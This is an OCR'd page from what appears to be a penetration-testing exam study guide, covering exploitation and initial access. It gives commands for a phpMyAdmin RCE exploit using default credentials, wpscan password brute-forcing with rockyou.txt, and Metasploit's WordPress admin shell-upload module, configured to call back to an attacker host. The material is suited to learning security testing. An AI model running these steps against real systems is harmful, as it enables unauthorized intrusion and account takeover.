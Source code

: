 
### 3. Exploitation \& Initial Access

Based on your findings, attempt exploitation. Here are common scenarios from your notes:

**Scenario A: PHPMyAdmin RCE**

1. **Find Exploit:** Search Exploit-DB for a verified RCE exploit matching the PHPMyAdmin version (e.g., 4.8.1 RCE).
2. **Use Exploit Script:** Download the script (e.g., `pma.py`). Run it, providing necessary arguments like target IP, port, web path, credentials (if known or default like `pma`/`pmapass`), and the command to execute.

```bash
# Example: Test command execution first
python3 pma.py <target_IP> 80 /phpmyadmin pma pmapass 'whoami'
# If successful, use this to execute the reverse shell download/run commands later
```

*This gives you command execution.* Proceed to the Reverse Shell step.

**Scenario B: WordPress Exploitation**

* **Option 1: Vulnerable Plugin/Theme:**

1. Find exploit on Exploit-DB based on `wpscan` results.
2. Download and run the exploit (e.g., `python3 wp_plugin_exploit.py http://<target_IP>/[wordpress_path]`).
3. If it grants RCE or a webshell upload, proceed to the Reverse Shell step.
* **Option 2: Brute-Force Credentials:**

1. Use `wpscan` to brute-force login (uses XML-RPC, less likely to lock out):

```bash
wpscan --url http://<target_IP>/[wordpress_path] --usernames <user_list_or_name> --passwords /usr/share/wordlists/rockyou.txt
```

*Remember to bring `rockyou.txt`!* Exam passwords are often within the first few thousand entries.
2. If successful (e.g., found `admin`/`finalfantasy`), login to the WordPress admin panel (`/wp-admin`).
* **Option 3: Use Metasploit (If Admin Access Gained):** This is often reliable.

1. Start Metasploit: `msfconsole`
2. Search for the exploit: `search wp_admin_shell_upload`
3. Use the exploit: `use exploit/unix/webapp/wp_admin_shell_upload`
4. Show options: `options`
5. Set required options:

```
set RHOSTS <target_IP>
set TARGETURI /[wordpress_path]/
set USERNAME <wordpress_admin_user>
set PASSWORD <wordpress_admin_password>
set LHOST <attacker_IP>
set LPORT <listening_port_for_msf> (e.g., 4445)
```

